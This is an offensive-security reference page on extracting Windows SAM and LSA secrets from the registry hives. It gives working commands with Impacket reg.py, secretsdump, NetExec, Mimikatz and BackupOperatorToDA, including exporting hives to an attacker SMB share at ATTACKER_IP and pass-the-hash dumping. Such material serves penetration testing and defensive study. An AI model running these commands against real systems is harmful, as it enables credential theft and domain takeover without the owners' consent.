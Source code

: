 ```yaml
---
description: MITRE ATT&CK™ Sub-techniques T1003.002, T1003.004 and T1003.005
---
```


# SAM & LSA secrets

## Theory

In Windows environments, passwords are stored in a hashed format in registry hives like SAM (Security Account Manager) and SECURITY.

| Hive | Details | Format or credential material |
| -------- | -------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| SAM | stores locally cached credentials (referred to as SAM secrets) | LM or NT hashes |
| SECURITY | stores domain cached credentials (referred to as LSA secrets) | Plaintext passwords, LM or NT hashes, Kerberos keys (DES, AES), Domain Cached Credentials (DCC1 and DCC2), Security Questions (`L$`*`SQSA`*`<SID>`),  |
| SYSTEM | contains enough info to decrypt SAM secrets and LSA secrets | N/A |

SAM and LSA secrets can be dumped either locally or remotely from the mounted registry hives. These secrets can also be extracted offline from the exported hives. Once the secrets are extracted, they can be used for various attacks, depending on the credential format.

| Credential material | Subsequent attacks |
| ---------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Plaintext passwords | [credential spraying](../bruteforcing/spraying), [stuffing](../bruteforcing/stuffing.md), [shuffling](../shuffling.md) or [silver tickets](../../kerberos/forged-tickets/) |
| LM and NT hashes | [credential spraying](../bruteforcing/spraying), [stuffing](../bruteforcing/stuffing.md), [shuffling](../shuffling.md), [cracking](../cracking.md), [pass-the-hash](../../ntlm/pth.md) |
| Kerberos keys (RC4, i.e. == NT hash) | [credential cracking](../cracking.md), [overpass-the-hash](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets/) |
| Kerberos keys (DES, AES) | [credential cracking](../cracking.md), [pass-the-key](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets/) |
| Domain Cached Credentials (DCC1 or DCC2) | [credential cracking](../cracking.md) |

## Practice

### Exfiltration

::: tabs

=== UNIX-like

[Impacket](https://github.com/SecureAuthCorp/impacket)'s reg.py (Python) script can also be used to do the same operation remotely for a UNIX-like machine. For instance, this can be used to easily escalate from a [Backup Operator](../../builtins/security-groups) member to a Domain Admin by dumping a Domain Controller's secrets and use them for a [DCSync](dcsync.md).

> [!TIP]
> The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.

```bash
# start an SMB share
smbserver.py -smb2support "someshare" "./"

# save each hive manually
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SAM' -o '\\ATTACKER_IPs\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\someshare'

# backup all SAM, SYSTEM and SECURITY hives at once
reg.py "domain"/"user":"password"@"target" backup -o '\\ATTACKER_IP\someshare'
```


=== Live Windows

When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```bash
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

This operation can be conducted remotely with [BackupOperatoToDA](https://github.com/mpgn/BackupOperatorToDA) (C++).

> [!TIP]
> The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.

```bash
BackupOperatorToDA.exe -d "domain" -u "user" -p "password" -t "target" -o "\\ATTACKER_IP\someshare"
```

> [!TIP]
> Alternatively, from a live Windows machine, the hive files can also be exfiltrated using [Volume Shadow Copy](ntds.md#volume-shadow-copy-vssadmin) like demonstrated for an NTDS export.


=== Down Windows

When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS (e.g. when booting the computer on another operating system). The hive files can be found at the following locations.

```bash
\system32\config\sam
\system32\config\security
\system32\config\system
```

:::


### Secrets dump

Here are some examples and tools that can be used for local/remote/offline dumping.

::: tabs

=== secretsdump

[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like [pass-the-hash](../../ntlm/pth.md) (LM/NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos).

```bash
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k 'DOMAIN/USER@TARGET'

# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```


=== netexec

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like [pass-the-hash](../../ntlm/pth.md) (NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos)

```bash
# Remote dumping of SAM/LSA secrets
netexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (local user authentication)
netexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-hash)
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-ticket)
netexec smb $TARGETS --kerberos --sam/--lsa
```


=== Mimikatz

[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally with [`lsadump::sam`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/sam) and [`lsadump::secrets`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/secrets) to extract credentials from `SAM` and `SECURITY` registry hives (and `SYSTEM` for the encryption keys), or offline with hive dumps.

```bash
# Local dumping of SAM secrets on the target
lsadump::sam

# Offline dumping of SAM secrets from exported hives
lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'

# Local dumping of LSA secrets on the target
lsadump::secrets

# Offline dumping LSA secrets from exported hives
lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
```

:::

> [!TIP]
> Secretsdump (Impacket) and NetExec both extract security questions, if any, from the LSA. They are json formatted, UTF-16-LE encoded, and hex encoded on top of that.

## Resources

[http://moyix.blogspot.com/2008/02/syskey-and-sam.html](http://moyix.blogspot.com/2008/02/syskey-and-sam.html)

[http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html](http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html)

[https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b](https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b)

[https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/](https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/)
